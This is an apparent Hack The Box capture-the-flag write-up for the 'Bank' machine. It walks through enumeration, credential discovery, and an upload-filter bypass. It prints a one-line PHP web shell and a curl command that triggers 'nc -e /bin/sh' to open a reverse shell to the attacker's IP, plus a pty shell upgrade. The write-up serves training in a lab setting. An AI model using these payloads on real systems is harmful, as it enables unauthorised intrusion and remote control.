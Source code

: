 ```yaml
---
description: https://app.hackthebox.com/machines/Bank
---
```


# 🏦 Bank

<figure><img src="../../../.gitbook/assets/image (701).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (702).png" alt=""><figcaption></figcaption></figure>

The web server is a default Apache page, so the entry point is probably DNS ->

{% embed url="https://book.hacktricks.xyz/network-services-pentesting/pentesting-dns" %}

for better enumeration, i put a bank.htb binded to the IP in my etc/hosts folder

<figure><img src="../../../.gitbook/assets/image (703).png" alt=""><figcaption></figcaption></figure>

funny enough, if i nmap bank.htb i find a login.php in the header ?

<figure><img src="../../../.gitbook/assets/image (704).png" alt=""><figcaption></figcaption></figure>

after a quick directory brute force we find this subpage:

<figure><img src="../../../.gitbook/assets/image (705).png" alt=""><figcaption></figcaption></figure>

Now let's use the lynx tool:

```
lynx http://bank.htb/balance-transfer/
```

<figure><img src="../../../.gitbook/assets/image (706).png" alt=""><figcaption></figcaption></figure>

> Lynx is a lightweight, text-based web browser commonly used in Kali Linux for anonymity, simplicity, command-line interface, and web application testing. It is particularly useful for penetration testers and security researchers due to its ability to browse the web without JavaScript, cookies, or other features that can be used to track users, and its ease of integration into automated testing workflows.

first thing to look at is the size of the files, they are all similar

<figure><img src="../../../.gitbook/assets/image (707).png" alt=""><figcaption></figcaption></figure>

Except one who is clearly off ->

<figure><img src="../../../.gitbook/assets/image (708).png" alt=""><figcaption></figcaption></figure>

and with those creds we are able to bypass the login page:

<figure><img src="../../../.gitbook/assets/image (709).png" alt=""><figcaption><p>damn chris got bread</p></figcaption></figure>

After looking around the only possible path is the support button with an upload form:

<figure><img src="../../../.gitbook/assets/image (710).png" alt=""><figcaption></figcaption></figure>

To test out the upload form, let's use the following&#x20;

```
<?php echo (system($_GET['go'])); ?>
```

<figure><img src="../../../.gitbook/assets/image (711).png" alt=""><figcaption></figcaption></figure>

Obviously:

<figure><img src="../../../.gitbook/assets/image (712).png" alt=""><figcaption></figcaption></figure>

as a soc analyst, the first level bypass of this is to use double extension ->

<figure><img src="../../../.gitbook/assets/image (713).png" alt=""><figcaption></figcaption></figure>

and that is game ->

<figure><img src="../../../.gitbook/assets/image (714).png" alt=""><figcaption></figcaption></figure>

when i try and find the file, I can't display it for obvious reasons:

<figure><img src="../../../.gitbook/assets/image (715).png" alt=""><figcaption></figcaption></figure>

Let's try to bypass this by curling it:

<figure><img src="../../../.gitbook/assets/image (716).png" alt=""><figcaption></figcaption></figure>

i changed the file extension to htb, idk why my extension did not work for the RCE, now let's abuse this&#x20;

```
curl -vsk "http://bank.htb/uploads/file.php.htb?go=nc%20-e%20/bin/sh%2010.10.14.166%205454"
```

i url encoded the command to bypass anything related to spaces ->

set up my listener and run it

<figure><img src="../../../.gitbook/assets/image (717).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (718).png" alt=""><figcaption></figcaption></figure>

Now let's go for root ->

before that, let's upgrade to a better shell:

```
python -c 'import pty; pty.spawn("/bin/bash")'
```

<figure><img src="../../../.gitbook/assets/image (719).png" alt=""><figcaption></figcaption></figure>

and after a bit of enumeration ->

we find a auto root script, could've found it with word spotting or stuff like that:

<figure><img src="../../../.gitbook/assets/image (720).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (721).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (722).png" alt=""><figcaption></figcaption></figure>
